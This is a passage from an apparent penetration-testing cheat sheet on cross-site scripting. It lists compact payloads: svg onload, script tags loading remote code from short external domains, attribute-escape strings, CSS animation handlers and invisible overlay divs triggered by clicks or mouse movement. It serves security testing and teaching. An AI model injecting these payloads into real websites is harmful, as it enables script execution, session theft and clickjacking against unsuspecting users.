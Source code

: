 Taken from the blog of [Jorge Lajara](https://jlajara.gitlab.io/posts/2019/11/30/XSS_20_characters.html).

```javascript
<svg/onload=alert``>
<script src=//aa.es>
<script src=//℡㏛.pw>
```

The last one is using 2 unicode characters which expands to 5: telsr  
More of these characters can be found [here](https://www.unicode.org/charts/normalization/).  
To check in which characters are decomposed check [here](https://www.compart.com/en/unicode/U+2121).  
**More tiny XSS for different environments** payload [**can be found here**](https://github.com/terjanq/Tiny-XSS-Payloads) **\*\*and \[**here\*\*\]\([https://tinyxss.terjanq.me/](https://tinyxss.terjanq.me/)\).

### Click XSS - Clickjacking

If in order to exploit the vulnerability you need the **user to click a link or a form** with prepopulated data you could try to [**abuse Clickjacking**](../clickjacking.md#xss-clickjacking) \(if the page is vulnerable\).

### Impossible - Dangling Markup

If you just think that **it's impossible to create an HTML tag with an attribute to execute JS code**, you should check [**Danglig Markup** ](../dangling-markup-html-scriptless-injection.md)because you could **exploit** the vulnerability **without** executing **JS** code.

## Injecting inside HTML tag

### Inside the tag/escaping from attribute value

If you are in **inside a HTML tag**, the first thing you could try is to **escape** from the tag and use some of the techniques mentioned in the [previous section](./#injecting-inside-raw-html) to execute JS code.  
If you **cannot escape from the tag**, you could create new attributes inside the tag to try to execute JS code, for example using some payload like \(_note that in this example double quotes are use to escape from the attribute, you won't need them if your input is reflected directly inside the tag_\):

```javascript
" autofocus onfocus=alert(document.domain) x="
```

#### Style events

```python
<p style="animation: x;" onanimationstart="alert()">XSS</p>
<p style="animation: x;" onanimationend="alert()">XSS</p>

#ayload that injects an invisible overlay that will trigger a payload if anywhere on the page is clicked:
<div style="position:fixed;top:0;right:0;bottom:0;left:0;background: rgba(0, 0, 0, 0.5);z-index: 5000;" onclick="alert(1)"></div>
#moving your mouse anywhere over the page (0-click-ish):
<div style="position:fixed;top:0;right:0;bottom:0;left:0;background: rgba(0, 0, 0, 0.0);z-index: 5000;" onmouseover="alert(1)"></div>
```
